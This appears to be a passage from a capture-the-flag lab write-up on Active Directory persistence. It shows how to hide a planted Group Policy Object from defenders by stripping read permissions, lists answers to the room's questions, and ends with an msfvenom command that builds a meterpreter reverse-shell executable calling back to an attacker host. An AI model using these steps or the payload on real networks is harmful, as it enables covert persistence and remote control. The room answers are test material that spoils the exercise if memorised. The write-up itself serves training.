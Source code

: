 1. Click **Add.**
2. Type **Domain Computers**, click **Check Names** and then **OK.**
3. Select **Read permissions** and click **OK.**
4. Click on **Authenticated Users** and click **Remove.**

Right after you perform these steps, you will get an error that you can no longer read your own policy:

![task8-gpm6](./images/task8-gpm6.png)

You can also see on the sidebar that we can no longer read this policy:

![task8-gpm7](./images/task8-gpm7.png)

By performing these steps, we can ensure that even with the highest level of permissions, the blue team would not be able to remove our GPO unless they impersonated the machine account of a Domain Controller. This makes it extra hard to firstly discover, and even if they discover the GPO, it would be incredibly hard to remove. We don't even have the required permissions to interface with our policy anymore, so one will have to stay there until a network reset is performed. You can verify that the GPO is still applied by RDPing into one of the THMSERVERS.

### Answer the questions below

* What MMC snap-in can be used to manage GPOs?

	`Group Policy Management`

* What sub-GPO is used to grant users and groups access to local groups on the hosts that the GPO applies to?
	
	`Restricted groups`

* What tab is used to modify the security permissions that users and groups have on the GPO?

	`Delegation`

* Practical Domain Persistence with Logon Scripts

	* Create a basic executable shell 
	
		```
		msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=5555 -f exe > kakakseram_shell.exe
		```
